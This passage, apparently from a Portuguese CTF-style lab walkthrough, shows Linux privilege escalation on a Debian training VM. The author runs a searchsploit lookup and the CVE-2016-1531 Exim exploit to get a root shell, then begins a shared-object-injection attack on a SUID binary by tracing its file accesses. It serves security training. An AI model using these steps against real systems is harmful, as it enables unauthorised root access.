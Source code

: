 Note que o arquivo /usr/sbin/exim-4.84-3` é um executável `SUID` e `SGID` e que o usuário `root` é o dono do arquivo. Vamos verificar se o arquivo possui alguma vulnerabilidade conhecida:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/linuxprivesc                                                                                      08:31:55
╰──➤ searchsploit exim 4.84-3
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Exim 4.84-3 - Local Privilege Escalation                             | linux/local/39535.sh
Exim < 4.86.2 - Local Privilege Escalation                           | linux/local/39549.txt
Exim < 4.90.1 - 'base64d' Remote Code Execution                      | linux/remote/44571.py
PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution             | php/webapps/42221.py
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Veja que existe um exploit para a versão 4.84-3 do `Exim`. Porém não precisamos baixar o exploit, pois ele já está na VM Debian em `/home/user/tools/suid/exim/cve-2016-1531.sh.`. Vamos executar o exploit:

```bash
user@debian:~$ /home/user/tools/suid/exim/cve-2016-1531.sh
[ CVE-2016-1531 local root exploit
sh-4.1# whoami
root
```

E para finalizar vamos cliclar no botão `Complete`.

---

## **<a id="12"> •SUID / SGID Executables - Shared Object Injection.</a>**

Ainda utilizando os arquivos `SUID/SGID` da VM Debian, temos o arquivo `/usr/local/bin/suid-so` que é um executável `SUID` e `SGID` e que o usuário `root` é o dono do arquivo. Esse arquivo é vulnerável a `Shared Object Injection`.

Quando executamos o arquivo `/usr/local/bin/suid-so` notamos que ele exibe uma barra de progresso antes de terminar a execução:

```bash
user@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
[=====================================================================>] 99 %
Done.
```

Vamos executar o `strace` para verificar o que o arquivo está fazendo:

```bash
user@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
```